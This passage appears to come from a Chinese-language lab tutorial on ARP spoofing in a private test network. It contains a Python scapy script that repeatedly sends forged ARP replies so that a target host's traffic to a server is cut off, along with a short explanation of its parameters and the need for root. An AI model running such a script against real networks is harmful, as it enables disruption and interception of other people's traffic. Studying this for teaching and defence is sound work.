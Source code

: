 ​	此时192.168.1.142的mac地址是00:0c:29:b4:65:b9，这时1.141可以正常访问1.142，没有异常。

接下来，我们首先将目标主机和服务器之间的数据切断。我们在攻击机kali上面编辑python攻击代码：

```python
from scapy.all import *
import time

spoof_ip = "192.168.1.140"
spoof_mac = "00:0c:29:f8:9c:62"

target_ip = "192.168.1.141"
target_mac = "00:0C:29:D3:B2:4E"

server_ip = "192.168.1.142"
server_mac = "00:0c:29:ac:a9:b3"

def run():
    ether = Ether(src=spoof_mac,dst=target_mac)
    arp = ARP(hwsrc=spoof_mac, psrc=server_ip, hwdst=target_mac, pdst=target_ip, op=2)
    package = ether/arp  # 构建ARP欺骗的数据包   
	while True:
    	sendp(package)
        time.sleep(1)
    
if __name__ == "__main__":
    run()
```

​	我们把参数设置对，在arp包中，源mac是spoof_mac，源ip是server_ip，目的mac和ip都为目标主机，然后将报文类型设置为2类，即响应报文。**（注意！在linux中，设备发送报文是需要管理员权限的，而代码中调用了scapy的发报文方法，因此要在命令行中使用管理员权限运行此攻击代码。）**接下来让我们运行代码，并抓包查看结果:

![image-20231118173105403](../img/image-20231118173105403.png)
